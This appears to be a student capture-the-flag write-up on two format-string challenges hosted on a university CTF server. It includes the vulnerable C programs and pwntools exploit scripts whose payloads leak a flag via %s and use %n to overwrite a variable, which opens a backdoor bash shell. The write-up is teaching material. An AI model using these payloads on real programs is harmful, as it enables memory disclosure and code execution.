 # **CTF Week #7**

**Objective:** Exploit format string vulnerabilities to read and write arbitrary memory.

**Targeted addresses**: http://ctf-fsi.fe.up.pt in port 4004 and port 4005 (`"nc ctf-fsi.fe.up.pt 4004"` and `"nc ctf-fsi.fe.up.pt 4005"`)


## Challenge 1

In this first challenge, using a ZIP file provided by the CTF platform, we need to read the flag.txt file where the flag for this challenge is located.
The service was hosted on port `4004`.

We started by running the command `checksec program`.

![screenshot1](screenshots/CTFWEEK7/screenshot1.png)

Analyzing this output we can conclude that the file architecture is Arch x86, that there's a canary protecting the return address (`Canary found`), the stack doesn't have execution permission (`NX enabled`), and binary positions aren't randomized (`PIE`). With all these observations in mind, we can conclude that a string format attack is viable and can be used successfully.

After that we looked over at the source code of the program.

**Program main.c**

``` c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}
```

Looking at the source code (main.c) we are asked 3 questions:

1. Which line of code is the vulnerability in?
* Linha 27: `printf(buffer);`

2. What does the vulnerability allow you to do?
* It allows us to crash the program, read from memory, change values and inject malicious code.

3. What is the functionality that allows you to obtain the flag?
* Format String.

After discovering where the vulnerability lies and what it allows us to do, and how we can use it to obtain the flag, the last thing needed is to find out in what specific memory address the `flag` array is located in. For that, we use `gdb`, that allows us to attach to the program's process and observe the stack and memory address of variables.

![screenshot2](screenshots/CTFWEEK7/screenshot2.png)

We use the command `p &flag` to retrive the memory address of the `flag` array. 

With all this information gathered, the final step was to use the python script, construct the string to send to the program and make it output the contents of the flag. The string was built with the follow logic: the first 4 bytes correspond to the memory address of the `flag` array in reverse, followed by the placeholder `%s` so we can print the contents.

**Program exploit_example.py**

``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08_.|%s|")
p.interactive()
```

![screenshot3](screenshots/CTFWEEK7/screenshot3.png)
After executing the script we found the flag.

## Challenge 2

In this second challenge, using a ZIP file provided by the CTF platform, we need to read the flag.txt file where the flag for this challenge is located.
The service was hosted on port `4005`.

Like in the first challenge, first order of action was to check what sort of protections the program had been compiled with by using the `checksec program` command. The output was the same as in the first program.

Next step was to look in the source code, and there we noticed the differences. The code looked very similar to the first program but with a few differences:

**Program main.c**

``` c
#include <stdio.h>
#include <stdlib.h>

int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else {
    	printf("\n\n\nWrong key: %d\n", key);
	    fflush(stdout);
    }
        
    return 0;
}
```

Looking at the source code (main.c) we are asked 3 questions:

1. Which line of code is the vulnerability in? And what does the vulnerability allow you to do?
* Linha 14: `printf(buffer);`. The same as the first challenge, it allows us to crash the program, read from memory, change values and inject malicious code.

2. Is the flag loaded into memory? Or is there some functionality that we can use to access it?
* In this program, the flag is not loaded into memory. Instead, a bash shell is opened if the condition `key == 0xbeef` is verified. Since `key` is a global variable, we can find out its memory address, and through the exploit access it and change its value to pass the condition. When such happens, and the bash shell opens, we can then call a bash command to read and output the contents of the flag file.

3. What do you have to do to unlock this functionality?
* Since the `Format String` vulnerability allows you to change the value of variables, you can change the value of key to be equal to `0xbeef`.

In the same track as the first challenge, in order to find out the memory address of `key`, we made use of the command `gdb`.

![screenshot4](screenshots/CTFWEEK7/screenshot4.png)

Finally, it was time to adapt the python script from the previous challenge for this challenge and run it. 

We want key to have the value 0xbeef, which in decimal corresponds to 48879.To solve this challenge, we added 8 bytes before the key address, so that when the %x instruction is read, the stack pointer will point to the address of the variable we want to change. This left us with the following string, which allowed us to obtain the flag after running the python helper script: \x24\xb3\x04\x08\x24\xb3\x04\x08%48871x%n.

**Program exploit_example.py**

``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"here...")
p.sendline(b"\x24\xb3\x04\x08\x24\xb3\x04\x08%48871x%n")
p.interactive()
```

![screenshot5](screenshots/CTFWEEK7/screenshot5.png)
After executing the script we found the flag.